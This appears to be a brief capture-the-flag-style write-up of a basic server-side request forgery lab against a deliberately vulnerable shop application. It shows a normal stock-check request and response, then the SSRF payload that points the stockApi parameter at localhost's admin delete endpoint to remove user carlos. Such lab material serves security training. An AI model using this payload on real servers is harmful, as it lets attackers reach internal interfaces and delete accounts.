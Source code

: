 # Basic SSRF against the local server

The "Check stock" feature sends a POST request to /product/stock with the full URL of the endpoint the application uses to check the stock:

```http
POST /product/stock HTTP/1.1

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

A normal response contains the number of items in stock in the body:

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

767
```

The path of the admin interface can be found in the HTML. Calling it directly reveals an authenticated view of the admin panel, from which we see the endpoint to delete the user carlos is `/admin/delete?username=carlos`.

```http
POST /product/stock HTTP/1.1

stockApi=http://localhost/admin/delete?username=carlos
```
